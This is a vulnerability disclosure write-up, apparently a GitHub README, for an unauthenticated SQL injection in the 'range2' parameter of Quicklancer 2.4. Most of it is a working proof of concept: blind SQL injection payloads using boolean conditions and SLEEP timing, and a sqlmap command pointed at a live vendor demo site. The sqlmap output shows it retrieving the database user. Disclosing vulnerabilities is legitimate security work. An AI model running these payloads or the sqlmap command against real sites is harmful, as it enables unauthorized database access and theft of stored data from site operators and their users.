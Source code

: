 # SQL Injection Vulnerability in Quicklancer 2.4
A SQL injection vulnerability exists in the Quicklancer 2.4, GET parameter 'range2', that has time-based blind SQL injection and a boolean-based blind SQL injection, which can be exploited remotely by unauthenticated attacker by an 
attacker to execute arbitrary SQL queries in the database.

## POC

### Payloads:
```sh
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
```

### Sqlmap:
```sh
python sqlmap.py -u "https://quicklancer.bylancer.com/listing?cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1&salary-type=1&sort=id&subcat=" -p range2 --dbms=mysql --current-db --current-user --batch

....
[13:41:41] [INFO] checking if the injection point on GET parameter 'range2' is a false positive
GET parameter 'range2' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: range2 (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 9480=9480 AND (7330=7330&salary-type=1&sort=id&subcat=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND (SELECT 1864 FROM (SELECT(SLEEP(5)))gOGh) AND (6900=6900&salary-type=1&sort=id&subcat=
---
[13:41:48] [INFO] the back-end DBMS is MySQL
web application technology: Apache
back-end DBMS: MySQL >= 5.0.12
[13:41:56] [INFO] fetching current user
[13:41:56] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:41:56] [INFO] retrieved: quicklancer_dbuser@localhost
```

![Banner](quicklancer/quicklancer1.jpg)


![Banner](quicklancer/quicklancer2.jpg)

## Contact

For any suggestions or thoughts, please get in touch with [me](https://x.com/MohamedNab1l).


## References

- https://bylancer.com/demo/quicklancer/


